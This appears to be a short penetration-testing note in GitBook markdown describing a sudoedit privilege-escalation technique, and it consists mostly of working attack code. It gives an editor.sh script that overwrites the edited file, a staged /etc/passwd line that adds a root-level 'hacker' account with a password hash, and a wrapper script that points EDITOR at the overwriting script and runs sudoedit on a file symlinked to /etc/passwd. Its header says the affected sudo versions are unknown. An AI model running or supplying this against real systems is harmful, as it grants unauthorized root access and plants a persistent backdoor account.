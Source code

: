 ```yaml
---
description: (unsure which version of sudo was vulnerable, to be added)
---
```


# sudoedit

Based on the following existing solutions:

* [https://unix.stackexchange.com/questions/202929/using-sudoedit-in-a-script-non-interactively](https://unix.stackexchange.com/questions/202929/using-sudoedit-in-a-script-non-interactively)
* [https://shadow-file.blogspot.com/2009/01/how-to-sudoedit-non-interactively.html](https://shadow-file.blogspot.com/2009/01/how-to-sudoedit-non-interactively.html)

{% code title="editor.sh" %}
```
#!/bin/sh
CAT=/bin/cat
PRE_STAGE="./stage.tmp"

$CAT $PRE_STAGE > "$1";
exit;
```
{% endcode %}

{% code title="stage.tmp (this is the new /etc/passwd file)" %}
```
[...]
hacker:$1$pwn$sX7TFgG1yRswJLX53dwzy1:0:0:root:/root:/bin/bash
```
{% endcode %}

{% code title="sudoedit-passwd.sh" %}
```
#!/bin/sh
OLD_EDITOR=$EDITOR;

export EDITOR="/bin/sh ./editor.sh";
PRE_STAGE=./stage.tmp;

sudoedit ./layout.html;  # symlinked file for /etc/passwd

export EDITOR=$OLD_EDITOR;

exit;
```
{% endcode %}

```
bash sudoedit-passwd.sh
```
